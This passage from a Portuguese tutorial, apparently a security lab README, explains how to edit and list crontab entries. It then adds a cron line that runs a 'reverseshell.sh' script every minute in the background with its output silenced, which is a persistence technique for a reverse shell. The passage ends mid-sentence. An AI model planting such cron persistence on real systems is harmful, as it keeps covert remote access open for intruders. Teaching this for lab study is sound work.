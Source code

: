 Você pode editar seu crontab com o seguinte comando:

```zsh
crontab -e
``` 

Se esta for a primeira vez que você executa o comando `crontab -e` neste perfil de usuário, ele solicitará que você selecione um editor de texto padrão para usar ao editar seu arquivo crontab:

<p align="center">
  <img src="Imagens/primeira execução  crontab.png">
  <br>
  Figura 5: Primeira Execução do Crontab neste Usuário
</p>

Digite o número correspondente ao editor de sua preferência. Alternativamente, você pode pressionar `ENTER` para aceitar a escolha padrão, `nano`.

Depois de fazer sua seleção, você será levado a um novo crontab contendo algumas instruções comentadas sobre como usá-lo:

<p align="center">
  <img src="Imagens/informações do crontab.png">
  <br>
  Figura 6: Instruções Comentadas do Crontab
</p>

Se você quer editar um crontab de outro usuário, você pode digitar `crontab -u username -e`. Tenha em mente que você só pode fazer isso como um **superusuário**. Isso significa que você precisa digitar `sudo su` antes de digitar o comando.

Quando você executar `crontab -e` no futuro, seu `crontab` editor de texto será exibido automaticamente. Uma vez no editor, você pode inserir sua programação com cada trabalho em uma nova linha. Caso contrário, você pode salvar e fechar o crontab por enquanto (`CTRL + O e ENTER` para salvar e `CTRL + X` para fechar, se tiver selecionado nano).

Agora vamos adicionar a seguinte linha ao crontab para executar o script shell que criamos anteriormente a cada minuto em segundo plano:

```zsh
* * * * * reverseshell.sh >/dev/null 2>&1 &
``` 

Para verificar se o cron job foi adicionado corretamente, mas não modificá-lo, pode-se usar o comando abaixo:

```zsh
crontab -l
``` 

<p align="center">
  <img src="Imagens/lista de agendamentos cron.png">
  <br>
  Figura 7: verificando Crontabs Criados
</p>

Verifique também o arquivo de log para garantir que o script está sendo executado conforme esperado, substitua o caminho do exemplo abaixo pelo caminho exato do log gerado quando criamos o script shell:
